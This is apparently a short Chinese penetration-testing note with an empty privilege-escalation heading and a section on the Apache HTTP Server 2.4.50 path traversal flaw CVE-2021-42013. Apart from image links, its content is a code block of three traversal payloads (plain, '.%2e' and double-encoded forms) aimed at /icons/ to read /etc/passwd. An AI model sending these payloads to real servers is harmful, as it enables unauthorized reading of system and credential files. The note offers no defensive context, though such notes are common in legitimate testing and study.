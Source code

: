 # linux 提权

![28432c1055f65c48f3c2fdfdb02fa710.png](../_resources/28432c1055f65c48f3c2fdfdb02fa710.png)
![cc196d2fb8e59fc8033aa786f036756a.png](../_resources/cc196d2fb8e59fc8033aa786f036756a.png)

# Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）

![e21c27520b913fd2ab5eb34d71483c86.png](../_resources/e21c27520b913fd2ab5eb34d71483c86.png)

```shell
/icons/../../../../../../../etc/passwd
/icons/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![0423d0274f5b95553f4a62943b015953.png](../_resources/0423d0274f5b95553f4a62943b015953.png)